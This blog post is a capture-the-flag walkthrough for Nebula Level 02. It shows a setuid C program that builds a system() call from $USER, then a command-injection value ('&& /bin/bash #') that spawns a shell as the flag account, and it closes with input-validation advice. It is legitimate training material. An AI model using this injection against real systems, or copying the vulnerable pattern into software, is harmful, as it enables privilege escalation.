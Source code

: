 ```yaml
---
layout: post
title: "Nebula Series - Level 02"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 02** is a quick one thanks to an application that trusts us blindly.

<!--more-->

Ok, so the first thing to understand is that you shouldn't trust the user. If the application
executes a command that is built either entirely or partially from user input, it's vulnerable to
command injection.

Inspecting the executable in the flag account's home directory `/home/flag02` we again see that it
is `setuid` and is owned by `flag02`.

To make our lives easier, we are also provided with the source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

Again, the application sets our **REAL** uid & gid to our **EFFECTIVE** uid & gid which means
as far as the running process is concerned, we are user `flag02`; now we just need to get it to do
our bidding.


The application builds up the command using the value in the `$USER` environment variable, stores it in the
buffer, and eventually executes it.

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
...
system(buffer)
```

Our goal is to craft a value for the `$USER` variable such that we are provided with a shell when the command is run.


We can short circuit the call to `/bin/echo` with `&&`, invoke `/bin/bash`, and comment out the rest
of the command with `#`:

```bash
$ USER='&& /bin/bash #' /home/flag02/flag02
```

The resulting command is

```bash
/bin/echo && /bin/bash # is cool
```

The `#` at the end is crucial because without it `bash` would try to execute a non-existent file called `is` and fail.
Instead, we are presented with a shell as `flag02` which we can verify with `whoami` if we're in doubt.

To complete the level we use our escalated privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- assume all input is malicious
- if possible, avoid dynamically composing commands with user provided data
